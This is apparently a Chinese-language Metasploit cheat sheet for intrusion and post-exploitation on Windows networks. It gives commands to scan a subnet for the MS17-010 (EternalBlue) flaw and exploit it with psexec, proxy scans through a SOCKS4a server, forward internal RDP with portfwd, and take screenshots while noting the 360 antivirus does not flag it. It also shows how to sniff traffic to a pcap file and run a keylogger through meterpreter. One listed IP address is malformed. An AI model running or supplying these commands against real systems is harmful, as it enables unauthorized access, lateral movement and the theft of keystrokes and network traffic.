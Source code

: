 MS17-010

> meterpreter > background 
>
> msf exploit(multi/handler) > use auxiliary/scanner/smb/	smb_ms17_010 
>
> msf auxiliary(scanner/smb/smb_ms17_010) > set rhosts 172.17.0.0/24
>
> msf auxiliary(scanner/smb/smb_ms17_010) > set threads 50
>
> msf auxiliary(scanner/smb/smb_ms17_010) > run

先利用 ``exploit/windows/smb/ms17_010_psexec``，win10 旧版依旧可以，新版设置  smbuser，smbpass 即可

### Msf 扫描

经过上面设置路由即可使用以下 scan：

> use auxiliary/scanner/portscan/syn
>
> use auxiliary/scanner/portscan/tcp

proxychains 设置 socks4 为以下设置，即可在本地代理扫描

> use auxiliary/server/socks4a

### Msf 端口转发 portfwd

将 192.168.1.2.100 内网转发到本地 4443 port，流量大不好用

> portfwd add -L 0.0.0.0 4443 -p 3389 -r 192.168.2.100

### Msf 截屏(没被 360 拦没提示，或许有意外收获)

> meterpreter > use espia
>
> meterpreter > screengrab

### Msf 嗅探

> meterpreter > use sniffer
>
> meterpreter > sniffer_interfaces
>
> meterpreter > sniffer_start 5
>
> meterpreter > sniffer_dump 5 /tmp/1.pcap
>
> meterpreter > sniffer_stop 5

### 键盘记录

Msf 键盘记录在 win 不会创建新进程

> meterpreter > keyscan_start 
>
> meterpreter > keyscan_dump 
>
> meterpreter > keyscan_stop 
